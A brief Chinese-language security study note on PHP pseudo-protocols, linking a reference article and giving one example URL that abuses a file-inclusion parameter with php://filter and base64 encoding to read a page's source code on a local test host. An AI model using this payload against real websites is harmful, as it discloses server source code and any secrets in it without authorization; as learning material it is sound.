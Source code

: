 ## php伪协议

[参考文章](http://www.freebuf.com/column/148886.html)

###读取源码
`http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php`


